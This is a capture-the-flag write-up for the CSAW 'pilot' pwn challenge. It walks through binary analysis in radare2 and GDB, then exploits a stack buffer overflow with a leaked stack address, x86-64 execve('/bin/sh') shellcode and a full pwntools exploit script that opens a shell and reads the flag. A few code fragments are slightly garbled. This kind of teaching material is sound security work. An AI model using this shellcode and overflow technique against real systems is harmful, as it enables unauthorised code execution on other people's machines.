


#Description
The pilot challenge was part of the pwn category, there was a binary available to download and the only
information we got was this:

Can I take your order?

nc pwn.chal.csaw.io 8464

# Running the binary
First of all we will run the binary to check if there is some sort for information that can help us to
discover the path to follow, after running the binary we can see a series of outputs and one line asking
for an input from the user, the location output seems interesting since it looks like it's some sort of
memory leak, we entered a random letter on the command input and nothing happened.

```
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7ffe61dfd4a0
 [*]Command:a
 [*]There are no commands....
 [*]Mission Failed....
```
We executed the binary again but this time we entered more data in the command input and this time we got
a segmentation fault, we need to find out what is causing this and if it's exploitable.
```
 ./pilot.bin 
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7ffef4406230
 [*]Command:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 Segmentation fault
```
# Binary Analysis
First of all lets check what kind of protection this binary has and other stuff in radare2 ...

```
[0x004008b0]> iI
arch     x86
binsz    8616
bintype  elf
bits     64
canary   false
class    ELF64
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
lang     cxx
linenum  false
lsyms    false
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   false
relro    partial
rpath    NONE
static   false
stripped true
subsys   linux
va       true
```

We look if some  security features like nx, va and relro are enabled since that will limit how we can
exploit this binary, we can also analyze the binary to identify functions, instructions and other useful
things with radare.

```
[0x004008b0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[ ] [*] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan))
```

We can get the list of functions with the command **afl**:
```
[0x004008b0]> afl
0x004007c8    3 26           sub.__gmon_start___248_7c8
0x00400800    2 16   -> 32   sym.imp.setvbuf
0x00400810    2 16   -> 48   sub._ZNSt8ios_base4InitC1Ev_32_810
0x00400820    2 16   -> 48   sym.imp.read
0x00400830    2 16   -> 48   sym.imp.__libc_start_main
0x00400840    2 16   -> 48   sym.imp.__cxa_atexit
0x00400850    2 16   -> 48   sub._ZNSt8ios_base4InitD1Ev_64_850
0x00400860    2 16   -> 48   sub._ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc_72_860
0x00400870    2 16   -> 48   sub._ZNSolsEPKv_80_870
0x00400880    2 16   -> 48   sub._ZNSolsEPFRSoS_E_88_880
0x00400890    2 16   -> 48   sub._ZSt4endlIcSt11char_traitsIcEERSt13basic_ostreamIT_T0_ES6__96_890
0x004008a0    1 16           sub.__gmon_start___248_8a0
0x004008b0    1 41           entry0
0x004008e0    4 50   -> 41   fcn.004008e0
0x004009a6    4 400          main
0x00400b36    4 62           sub.std::ios_base::Init.Init___b3
```
The main function can be one of our main focus points, we can go to the main function with the command
**s main** and disassemble it with the command **pdf**, now it's time to find our bug and possible 
vulnerability.

```
[0x004008b0]> s main 
[0x004009a6]> pdf
┌ (fcn) main 400
│   main ();
│           ; var int local_20h @ rbp-0x20
│              ; DATA XREF from 0x004008cd (entry0)
│           0x004009a6      55             push rbp
│           0x004009a7      4889e5         mov rbp, rsp
```
Since we know that the program crashes when we introduce a big string after the command output we will
try to find that in the assembly code, we can verify that the read function is used to capture our
input.


# Debugging the binary
With what we have at the moment we can set a breakpoint after the read function has ended to take
a quick look at the stack and follow the execution code and verify if we can prevent the segmentation fault
in order to execute our own code to take over the binary.

We selected the address 0x400ae5 as a good location to set a breakpoint, since this is right before the
read function returns.
```
 0x00400ae0      e83bfdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
 0x00400ae5      4883f804       cmp rax, 
```
First of all we need to know what the strange number in the Location output is all about, opening the file
in GDB with ASLR off we get the following location **0x7fffffffe340**.

```
 [*]Welcome DropShip Pilot...
 [*]I am your assitant A.I....
 [*]I will be guiding you through the tutorial....
 [*]As a first step, lets learn how to land at the designated location....
 [*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
 [*]Good Luck Pilot!....
 [*]Location:0x7fffffffe340
```

Inspecting our registers it seems this is where the RSP register is pointing to, this is starting to look
like a standard BOF exploit, at address 0x00400ae0 the function read (fd, void \*buf, size_t) is called with
size_t of 0x40 that means 64 chars and if we look carefully RBP sits at address 0x7fffffffe360 so in theory
we can overwrite RBP and RET address in the stack since there is just 32 bytes of difference and we have a
buffer that can hold up to 64 chars.



Since there is no NX protection to prevent the execution of code in the stack we can inject our shellcode
directly to the stack and modify the ret address in order to jump there, since we just want to spawn a shell
in the remote server we will use the following code in ASM to generate our shellcode that is just sysexecv("/bin/sh",0,0):

``asm
bits 64

push 59
pop rax
cdq
push rdx
pop rsi
mov rcx, '/bin//sh'
push rdx
push rcx
push rsp
pop rdi
syscal
```

We can assemble the instructions with nasm:
 nasm -fbin shellcode.nasm -o sc.bin

And generate a python friendly shellcode with hexdump:
 hexdump -v -e '"\\x" 1/1 "%02X" ' sc.bin
 \x6A\x3B\x58\x99\x52\x5E\x48\xB9\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x52\x51\x54\x5F\x0F\x05

Since we need to overwrite the return address at 0x7fffffffe368 we need an offset of 40 bytes, our shellcode
length is 22 bytes we need 18 bytes to complete our offset we will just nop instructions \x90 to fill the
gap.

We will use [pwntools](https://docs.pwntools.com/en/stable/) since it will help us to reduce some lines of
code and provide some cool functionalities, this is our final script that will deliver our exploit.

```python
from pwn import *

r = remote('pwn.chal.csaw.io', 8464)
buf = ''
buf += '\x6A\x3B\x58\x99\x52\x5E\x48\xB9'
buf += '\x2F\x62\x69\x6E\x2F\x2F\x73\x68'
buf += '\x52\x51\x54\x5F\x0F\x05'
buf += '\x90' * 18
print "[+] Getting memory leak\n"
r.recvline_contains("Good Luck Pilot!")
memleak = r.recvline()
buf += p64(int(memleak[12:26:],16))
print "[+] Sending payload\n"
r.sendline(buf)
print "[+] Entering interactive mode\n"
r.interactive()
```
# Getting the flag
```
foobar@quant:~/h/c/csaw$ python exploit.py 
[+] Opening connection to pwn.chal.csaw.io on port 8464: Done
[+] Getting memory leak

[+] Sending payload

[+] Entering interactive mode

[*] Switching to interactive mode
[*]Command:$ ls
flag
pilot
$ cat flag
flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}
```
